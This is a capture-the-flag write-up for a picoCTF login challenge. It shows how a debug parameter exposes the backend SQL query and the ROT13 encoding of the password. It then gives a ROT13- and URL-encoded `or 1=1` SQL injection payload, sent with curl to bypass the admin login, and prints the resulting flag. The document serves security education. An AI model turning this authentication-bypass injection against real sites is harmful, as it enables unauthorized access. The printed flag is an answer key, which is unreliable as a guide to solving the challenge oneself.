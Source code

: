 ## Challenge

### Description
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/`. Try to see if you can log in as admin!

### Hints
1- Seems like the password is encrypted.

## Resolution
This is an improved version of the previous "Irish-name-repo" challenges, so we know that the website is vulnerable to an SQL injection.
When we navigate to the login page we find a password text field.
![image](https://github.com/elomarii/ctf4day/assets/106914699/78ff3451-b440-42a0-99cc-1b06f04587b7)

We can try some inputs to see how the app will behave. When we inspect the POST request that carries the data, we find that two pieces of information are sent to the server.
![image](https://github.com/elomarii/ctf4day/assets/106914699/4ac792d9-0604-486f-b98a-9430e1bd61c3)

The `debug` value may expose how the server handles the request, thus, we provide a different value and see what will happen.

We can use `curl` utility and the following command to do so:
```
$ curl -X POST -d "password=abcd&debug=1" https://jupiter.challenges.picoctf.org/problem/54253/login.php

<pre>password: abcd
SQL query: SELECT * FROM admin where password = 'nopq'
</pre><h1>Login failed.</h1>
```

Notice that the password was encoded differently. One of the first ideas that comes to mind is that the encoding might be a Rot. It actually is, and we can use any online decoder to verify that a Rot-13 is used there.
All that's left to do is encode our injection and send it to the server.

- The payload: `pwd' or 1=1;#`
- The encoded payload: `cfj' be 1=1;#`
- Url encoded payload: `cfj%27%20be%201%3D1%3B%23`

```
$ curl -X POST -d "password=cfj%27%20be%201%3D1%3B%23&debug=1" https://jupiter.challenges.picoctf.org/problem/54253/login.php

<pre>password: cfj' be 1=1;#
SQL query: SELECT * FROM admin where password = 'psw' or 1=1;#'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>
```

The flag: `picoCTF{3v3n_m0r3_SQL_7f5767f6}`
